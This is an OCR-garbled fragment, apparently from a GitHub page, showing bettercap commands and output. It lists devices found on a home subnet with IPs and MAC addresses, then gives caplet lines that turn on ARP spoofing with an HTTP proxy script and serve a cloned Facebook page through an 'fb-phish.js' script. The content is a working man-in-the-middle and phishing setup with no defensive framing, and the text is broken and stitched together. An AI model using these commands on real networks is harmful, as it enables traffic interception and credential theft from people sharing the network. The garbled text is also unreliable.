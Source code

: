 
```
bettercap
```

```
net.probe on
clear
ticker on
```
192.168.50.156 laptop

192.168.50.166  | b8:27:eb:43:65:0c  | wlan0                       | Raspberry Pi Foundation         | 0 B    | 0 B     | 18:19:08   |
| 192.168.50.1    | 1c:87:2c:37:45:48  | gateway                     | Asustek Computer                | 70 kB  | 354 kB  | 18:19:08   |
|                 |                    |                             |                                 |        |         |            |
| 192.168.50.25   | 8c:85:90:32:59:eb  | IECHKWMAC06.                |                                 | 0 B    | 387 B   | 18:19:08   |
| 192.168.50.27   | 00:d9:d1:0f:3c:cb  |                             | Sony Interactive Entertainment  | 630 B  | 387 B   | 18:20:16   |
| 192.168.50.150  | 04:79:70:db:b0:d1  | HUAWEI_Mate_10_Pro-f3ac51.  |                                 | 568 B  | 344 B   | 18:20:10   |
| 192.168.50.156  | 9c:b6:d0:88:5c:c1  | laptop.                     | Rivet Networks                  | 568 B  | 344 B   | 18:20:10   |
| 192.168.50.235  | c0:ee:fb:d7:ef:76  | OnePlus_3.                  | OnePlus Tech (Shenzhen)         | 568 B  | 344 B   | 18:20:11
# targeting the whole subnet by default, to make it selective:
#
#   sudo ./bettercap -caplet rtfm.cap -eval "set arp.spoof.targets 192.168.1.64"

clear

set http.proxy.script repo/caplets/rtfm.js
http.proxy on
arp.spoof on
----
set http.server.address 0.0.0.0
set http.server.path www/www.facebook.com/

set http.proxy.script repo/caplets/fb-phish.js

http.proxy on
http.server on
